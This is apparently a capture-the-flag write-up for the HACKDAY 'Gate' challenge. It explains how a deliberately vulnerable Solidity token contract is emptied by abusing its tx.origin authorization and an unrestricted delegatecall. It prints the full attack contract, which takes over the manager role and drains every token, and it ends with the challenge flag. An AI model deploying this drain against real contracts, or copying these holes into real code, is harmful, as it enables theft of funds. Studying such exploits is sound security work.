



# Gate

> You've got the documents you need. \
> The last thing you need to do before you leave is to mess with the enemy blockchain to paralyze the outpost completely and be able to sneak away in the middle of the general panic. \
> Grab all their cash!

We're given the following contract:

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// The following contract is vulnerable on purpose: DO NOT COPY AND USE IT ON MAINNET!
contract Diamond is ERC20("Diamond", "DMD") {
    address private manager;
    address private extension;
    mapping(address => bool) private redeemers;
    uint256 private bonusRedeemsLeft = 5;
    uint256 private constant diamond = 10 ** 18; // 18 is the default decimals number

    constructor() {
        manager = msg.sender;
        _mint(address(this), 1000 * diamond);
    }

    function recovery(address newManager) public {
        require(tx.origin == manager);
        manager = newManager;
    }

    function getFirstRedeemerBonus() public {
        require(bonusRedeemsLeft > 0);
        require(redeemers[msg.sender] == false);
        bonusRedeemsLeft -= 1;
        redeemers[msg.sender] = true;
        bool success = this.transfer(msg.sender, 5 * diamond);
        require(success);
    }

    function setExtension(address newExtension) public {
        require(msg.sender == manager);
        extension = newExtension;
    }

    function callExtension(bytes memory _data) public {
        (bool success, ) = extension.delegatecall(_data);
        require(success);
    }
}
```

## Overview of the contract

The contract handles an ERC20 token named Diamond or DMD. When created, it gives 1000 DMD to itself. It exposed a `getFirstRedeemerBonus` function to allow anyone to get 5 DMD to begin with, for a maximum of 5 different accounts. Because of this limitation, we can't use this function to empty the initial balance of the contract. \
The important part is the `setExtension`, `callExtension` and `recovery` functions. These functions can only be used by the manager, which is the address of the deployer of the contract, and allow to respectively add an address as an extension, call the extension and change the manager.

## Vulnerabilities

There are two different vulnerabilities in the contract that will allow us to reach our goal:

- the usage of `tx.origin` instead of `msg.sender`
- the delegatecall to an arbitrary address

### tx.origin

The usage of `tx.origin` for authorization is a [big mistake](https://swcregistry.io/docs/SWC-115). If we manage to make the current manager send a transaction to a contract we control, the contract can in turn call the `recovery` function and the `require(tx.origin == manager)` check will be a success.

If you did pay attention to the faucet page, something very important was written...



> Useful note: this faucet is also the account used to deploy the contracts.

Now we have our attack path to become the manager! Just create a contract with a fallback function that calls `recovery` with the address we want as the new manager, and ask the faucet to give some money to our attack contract to trigger the execution of the fallback. That's it!

### delegatecall

A delegatecall isn't inherently vulnerable, but when the delegatecall is made to an untrusted address, the callee has [full control](https://swcregistry.io/docs/SWC-112) over the caller contract storage and balance.

Now that we're manager, we can use `setExtension` to update the extension address with our attack contract, and finally use `callExtension` to execute whatever function we want of our attack contract in the context of the Diamond one.

Because our contract will be called via a delegatecall, it will access the Diamond contract storage and functions instead of his own, just as if the code executed in our contract was executed in the Diamond contract.

To steal all the ERC20 tokens, all we have to do now is to call the ERC20 `transfer` function to move all the tokens from the Diamond contract's balance to any other one.

## The exploitation contract

If we put everything together in one single attack contract, we get the following.

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "../contracts/Diamond.sol";

contract DiamondAttack {
    Diamond diamond;

    constructor(address _diamond) {
        diamond = Diamond(_diamond);
    }

    fallback() external payable {
        diamond.recovery(address(this));
        diamond.setExtension(address(this));
        diamond.callExtension(abi.encodeWithSignature("steal()"));
    }

    // no need to define the code of these functions because the fact that they are called through a delegatecall will make them execute the functions of the Diamond contract instead
    function transfer(address to, uint256 amount) public returns (bool) {}
    function balanceOf(address account) public returns (uint256) {}

    function steal() public {
        // because this function will be called through a delegate call, the value of address(this) will be the address of the Diamond contract and not of our Attack contract
        bool success = this.transfer(<any address you want>, this.balanceOf(address(this)));
        require(success);
    }
}
```

We just need to create it with the address of the Diamond contract we want to attack, and ask the faucet to give it money to trigger the fallback. The contract will become the new manager, register itself as the extension, and call the `steal` function using the delegatecall so that the function is executed in the context of the Diamond contract and move all the tokens owned by the contract to another address.

Once done, the Diamond contract doesn't have anything left in its balance, as expected.



We've reached our goal! We can now get the flag by clicking the check button on the challenge page.



Flag: `HACKDAY{4ll_d14m0nds_succ3ssfully_st0l3n}`